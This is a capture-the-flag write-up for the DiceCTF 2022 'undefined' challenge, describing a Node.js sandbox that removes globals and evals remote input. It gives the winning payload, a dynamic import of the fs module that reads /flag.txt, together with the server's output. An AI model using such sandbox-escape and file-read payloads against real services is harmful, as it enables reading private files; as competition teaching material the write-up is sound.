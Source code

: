 # Writeup of "undefined" challenge from DiceCTF 2022

Writeup author: wiegnand (Lucas Baizer)

The challenge (written by aplet123) had this description:
```
I was writing some Javascript when everything became undefined...

Can you create something out of nothing and read the flag at /flag.txt? Tested for Node version 17.

nc mc.ax 31131
```
Attached to the challenge was a single file, [index.js](./index.js).

# Understanding index.js

The first thing I did was simply just read the contents of the `index.js` file and try and understand what it does. It removes almost all global variables, and undefines the function constructor field. The only global variables left are the `console` object and the `eval` function. After undefining everything, the script runs `eval` on arbitrary code sent through `nc`.

# Reversing

The ultimate goal is to read the file at `/flag.txt`, which my intial thought would be that we will require our payload to require the `fs` module somehow.

My first goal in finding a potential payload was considering if Node 17 has some instrinic global function of field that existed outside of the `global` object. My first guess was to use the dynamic import function, `import`.

# Exploitation

As a first guess, using the `import` function, I sent the payload to the `nc` server:
```javascript
import('fs').then(fs => console.log(fs.readFileSync('/flag.txt', 'utf8')))
```
Which resulted in the server giving the output:
```
Promise { <pending> }
dice{who_needs_builtins_when_you_have_arguments}
```
It seems that the `import` function was somehow not undefined, and allowed us to get the flag.